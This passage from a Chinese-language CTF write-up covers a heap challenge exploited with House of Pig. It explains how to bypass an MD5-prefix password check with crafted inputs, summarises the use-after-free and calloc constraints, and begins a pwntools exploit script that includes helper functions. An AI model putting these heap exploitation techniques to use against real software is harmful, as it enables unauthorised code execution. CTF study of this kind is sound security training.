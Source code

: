 ![](./figure/copy-operation.png)

要觸發這個未更新的漏洞需要更改角色，要通過一個 check_password 的操作。

![](./figure/checkpassword-operation.png)

也就是需要輸入三個 md5 值之一的原值，注意到最後一個 md5 被 '\x00' 截斷了，所以只要前兩位相同即可，可以嘗試使用爆破等方法通過此處的檢測，下面是一種方法。

```python
def change_rol(role):
    sh.sendlineafter("Choice: ",'5')
    if (role == 1):
        sh.sendlineafter("user:\n","A\x01\x95\xc9\x1c")
    if (role == 2):
        sh.sendlineafter("user:\n","B\x01\x87\xc3\x19")
    if (role == 3):
        sh.sendlineafter("user:\n","C\x01\xf7\x3c\x32")
```

總結一下，程序主要的漏洞點是有 UAF，可以 show，可以 edit，分別有 2 和 8 次機會。最大可以申請 0x440 大小的空間，即可以使 chunk 進入 unsorted bin 和 large bin。整個程序中不存在 malloc 函數，全部是 calloc，由此函數的不從 tcache 中取出 chunk 的性質，且不可以申請 fastbin 範圍中的 chunk，導致利用比較困難。

#### 通過 House of Pig 實現利用
```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
context.terminal = ["tmux","splitw","-h"]

def add_message(size,payload):
    sh.sendlineafter("Choice: ",'1')
    sh.sendlineafter("size: ",str(size))
    sh.sendafter("message: ",payload)

def view_message(idx):
    sh.sendlineafter("Choice: ",'2')
    sh.sendlineafter("index: ",str(idx))

def edit_message(idx,payload):
    sh.sendlineafter("Choice: ",'3')
    sh.sendlineafter("index: ",str(idx))
```